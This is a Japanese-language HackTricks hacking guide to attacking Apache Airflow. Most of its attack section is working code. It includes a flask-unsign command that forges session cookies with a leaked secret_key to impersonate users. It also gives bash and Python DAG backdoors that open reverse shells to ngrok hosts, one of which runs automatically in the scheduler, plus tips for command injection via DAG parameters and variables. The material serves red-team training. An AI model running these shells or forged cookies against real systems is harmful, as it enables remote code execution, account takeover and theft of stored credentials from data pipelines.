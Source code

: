 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのオーケストレーションとスケジューリングのためのプラットフォーム**として機能します。データパイプラインの文脈における「オーケストレーション」という用語は、さまざまなソースからの複雑なデータワークフローを整理、調整、管理するプロセスを指します。これらのオーケストレーションされたデータパイプラインの主な目的は、処理された消費可能なデータセットを提供することです。これらのデータセットは、ビジネスインテリジェンスツール、データサイエンス、機械学習モデルなど、さまざまなアプリケーションで広く利用されており、ビッグデータアプリケーションの機能にとって基盤となっています。

基本的に、Apache Airflowは、**何かが起こったときにコードの実行をスケジュールすることを可能にします**（イベント、cron）。

### ローカルラボ

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) からの**docker-compose設定ファイルを使用して、完全なapache airflow docker環境を起動できます**。（MacOSを使用している場合は、docker VMに少なくとも6GBのRAMを割り当てることを確認してください）。

#### Minikube

**apache airflowを実行する簡単な方法の一つは、**minikube**を使用して実行することです**：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflowの設定

Airflowはその設定に**機密情報**を保存する可能性があり、または脆弱な設定が存在することがあります：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻撃

#### ウェブコンソールの列挙

**ウェブコンソールにアクセス**できる場合、以下の情報の一部またはすべてにアクセスできる可能性があります：

* **変数**（カスタムの機密情報がここに保存される可能性があります）
* **接続**（カスタムの機密情報がここに保存される可能性があります）
* `http://<airflow>/connection/list/`でアクセス
* [**設定**](./#airflow-configuration)（**`secret_key`**やパスワードなどの機密情報がここに保存される可能性があります）
* **ユーザーと役割のリスト**
* **各DAGのコード**（興味深い情報が含まれている可能性があります）

#### 変数の値を取得

変数はAirflowに保存され、**DAG**がその値に**アクセス**できるようになります。他のプラットフォームの秘密に似ています。**十分な権限**があれば、`http://<airflow>/variable/list/`のGUIでアクセスできます。\
AirflowはデフォルトでGUIに変数の値を表示しますが、[**これ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**アスタリスク**として表示される**変数のリスト**を設定することが可能です。

![](<../../.gitbook/assets/image (164).png>)

しかし、これらの**値**は**CLI**（DBアクセスが必要）、**任意のDAG**の実行、**API**を介して変数エンドポイントにアクセスすること（APIは有効化する必要があります）、さらには**GUI自体**からも**取得**できます！\
GUIからこれらの値にアクセスするには、アクセスしたい**変数を選択**し、**アクション -> エクスポート**をクリックします。\
別の方法は、**検索フィルタリング**を使用して**隠された値**に対して**ブルートフォース**を行い、それを取得することです：

![](<../../.gitbook/assets/image (152).png>)

#### 権限昇格

**`expose_config`**設定が**True**に設定されている場合、**ユーザー役割**以上の権限を持つ者は**ウェブで設定を読み取る**ことができます。この設定には**`secret_key`**が含まれており、これにより有効なユーザーは**他のユーザーアカウントを偽装するための独自の署名付きクッキーを作成**できます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAGバックドア（AirflowワーカーにおけるRCE）

**DAGが保存されている場所**に**書き込みアクセス**がある場合、**リバースシェル**を送信する**DAG**を**作成する**だけです。\
このリバースシェルは**airflowワーカーコンテナ**内で実行されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG バックドア (Airflow スケジューラにおける RCE)

コードの**ルートで実行されるように設定**した場合、この記事執筆時点では、それはDAGのフォルダに配置してから数秒後に**スケジューラによって実行されます**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAGの作成

もしあなたが**DAGクラスター内のマシンを侵害することに成功すれば**、`dags/`フォルダーに新しい**DAGスクリプト**を作成でき、それらは**DAGクラスター内の他のマシンに複製されます**。

#### DAGコードインジェクション

GUIからDAGを実行するとき、**引数**を渡すことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションに対して脆弱である可能性があります。**\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG内のコマンドインジェクションを探し始めるために知っておくべきこと**は、**パラメータ**が**`dag_run.conf.get("param_name")`**というコードで**アクセスされる**ということです。

さらに、同じ脆弱性が**変数**にも発生する可能性があります（十分な権限があれば、GUIで**変数の値を制御できる**ことに注意してください）。変数は**次のようにアクセスされます**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
もしそれらが例えばbashコマンドの中で使用されると、コマンドインジェクションを実行することができます。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを送信してください。**

</details>
{% endhint %}
